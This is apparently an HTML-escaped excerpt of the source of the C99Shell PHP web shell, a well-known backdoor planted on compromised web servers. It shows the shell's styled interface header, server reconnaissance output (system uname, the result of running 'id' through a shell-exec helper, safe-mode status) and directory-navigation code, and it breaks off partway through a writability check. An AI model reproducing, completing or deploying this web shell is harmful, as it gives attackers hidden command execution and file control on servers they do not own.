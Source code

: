 ?&gt;&lt;html&gt;&lt;head&gt;&lt;meta http-equiv="Content-Type" content="text/html; charset=windows-1251"&gt;&lt;meta http-equiv="Content-Language" content="en-us"&gt;&lt;title&gt;&lt;?php echo getenv("HTTP_HOST"); ?&gt; - phpshell&lt;/title&gt;&lt;STYLE&gt;TD { FONT-SIZE: 8pt; COLOR: #ebebeb; FONT-FAMILY: verdana;}BODY { scrollbar-face-color: #800000; scrollbar-shadow-color: #101010; scrollbar-highlight-color: #101010; scrollbar-3dlight-color: #101010; scrollbar-darkshadow-color: #101010; scrollbar-track-color: #101010; scrollbar-arrow-color: #101010; font-family: Verdana;}TD.header { FONT-WEIGHT: normal; FONT-SIZE: 10pt; BACKGROUND: #7d7474; COLOR: white; FONT-FAMILY: verdana;}A { FONT-WEIGHT: normal; COLOR: #dadada; FONT-FAMILY: verdana; TEXT-DECORATION: none;}A:unknown { FONT-WEIGHT: normal; COLOR: #ffffff; FONT-FAMILY: verdana; TEXT-DECORATION: none;}A.Links { COLOR: #ffffff; TEXT-DECORATION: none;}A.Links:unknown { FONT-WEIGHT: normal; COLOR: #ffffff; TEXT-DECORATION: none;}A:hover { COLOR: #ffffff; TEXT-DECORATION: underline;}.skin0{position:absolute; width:200px; border:2px solid black; background-color:menu; font-family:Verdana; line-height:20px; cursor:default; visibility:hidden;;}.skin1{cursor: default; font: menutext; position: absolute; width: 145px; background-color: menu; border: 1 solid buttonface;visibility:hidden; border: 2 outset buttonhighlight; font-family: Verdana,Geneva, Arial; font-size: 10px; color: black;}.menuitems{padding-left:15px; padding-right:10px;;}input{background-color: #800000; font-size: 8pt; color: #FFFFFF; font-family: Tahoma; border: 1 solid #666666;}textarea{background-color: #800000; font-size: 8pt; color: #FFFFFF; font-family: Tahoma; border: 1 solid #666666;}button{background-color: #800000; font-size: 8pt; color: #FFFFFF; font-family: Tahoma; border: 1 solid #666666;}select{background-color: #800000; font-size: 8pt; color: #FFFFFF; font-family: Tahoma; border: 1 solid #666666;}option {background-color: #800000; font-size: 8pt; color: #FFFFFF; font-family: Tahoma; border: 1 solid #666666;}iframe {background-color: #800000; font-size: 8pt; color: #FFFFFF; font-family: Tahoma; border: 1 solid #666666;}p {MARGIN-TOP: 0px; MARGIN-BOTTOM: 0px; LINE-HEIGHT: 150%}blockquote{ font-size: 8pt; font-family: Courier, Fixed, Arial; border : 8px solid #A9A9A9; padding: 1em; margin-top: 1em; margin-bottom: 5em; margin-right: 3em; margin-left: 4em; background-color: #B7B2B0;}body,td,th { font-family: verdana; color: #d9d9d9; font-size: 11px;}body { background-color: #000000;}&lt;/style&gt;&lt;/head&gt;&lt;BODY text=#ffffff bottomMargin=0 bgColor=#000000 leftMargin=0 topMargin=0 rightMargin=0 marginheight=0 marginwidth=0&gt;&lt;center&gt;&lt;TABLE style="BORDER-COLLAPSE: collapse" height=1 cellSpacing=0 borderColorDark=#666666 cellPadding=5 width="100%" bgColor=#333333 borderColorLight=#c0c0c0 border=1 bordercolor="#C0C0C0"&gt;&lt;tr&gt;&lt;th width="101%" height="15" nowrap bordercolor="#C0C0C0" valign="top" colspan="2"&gt;&lt;p&gt;&lt;font face=Webdings size=6&gt;&lt;b&gt;!&lt;/b&gt;&lt;/font&gt;&lt;a href="&lt;?php echo $surl; ?&gt;"&gt;&lt;font face="Verdana" size="5"&gt;&lt;b&gt;C99Shell v. &lt;?php echo $shver; ?&gt;&lt;/b&gt;&lt;/font&gt;&lt;/a&gt;&lt;font face=Webdings size=6&gt;&lt;b&gt;!&lt;/b&gt;&lt;/font&gt;&lt;/p&gt;&lt;/center&gt;&lt;/th&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td&gt;&lt;p align="left"&gt;&lt;b&gt;Software:&nbsp;&lt;?php echo $DISP_SERVER_SOFTWARE; ?&gt;&lt;/b&gt;&nbsp;&lt;/p&gt;&lt;p align="left"&gt;&lt;b&gt;uname -a:&nbsp;&lt;?php echo wordwrap(php_uname(),90,"&lt;br&gt;",1); ?&gt;&lt;/b&gt;&nbsp;&lt;/p&gt;&lt;p align="left"&gt;&lt;b&gt;&lt;?php if (!$win) {echo wordwrap(myshellexec("id"),90,"&lt;br&gt;",1);} else {echo get_current_user();} ?&gt;&lt;/b&gt;&nbsp;&lt;/p&gt;&lt;p align="left"&gt;&lt;b&gt;Safe-mode:&nbsp;&lt;?php echo $hsafemode; ?&gt;&lt;/b&gt;&lt;/p&gt;&lt;p align="left"&gt;&lt;?php 
$d = str_replace("\\",DIRECTORY_SEPARATOR,$d); 
if (empty($d)) {$d = realpath(".");} elseif(realpath($d)) {$d = realpath($d);} 
$d = str_replace("\\",DIRECTORY_SEPARATOR,$d); 
if (substr($d,-1) != DIRECTORY_SEPARATOR) {$d .= DIRECTORY_SEPARATOR;} 
$d = str_replace("\\\\","\\",$d); 
$dispd = htmlspecialchars($d); 
$pd = $e = explode(DIRECTORY_SEPARATOR,substr($d,0,-1)); 
$i = 0; 
foreach($pd as $b) 
{ 
$t = ""; 
$j = 0; 
foreach ($e as $r) 
{ 
  $t.= $r.DIRECTORY_SEPARATOR; 
  if ($j == $i) {break;} 
  $j++; 
} 
echo "&lt;a href=\"".$surl."act=ls&d=".urlencode($t)."&sort=".$sort."\"&gt;&lt;b&gt;".htmlspecialchars($b).DIRECTORY_SEPARATOR."&lt;/b&gt;&lt;/a&gt;"; 
$i++; 
} 
echo "&nbsp;&nbsp;&nbsp;"; 
if (is_writable($d)) 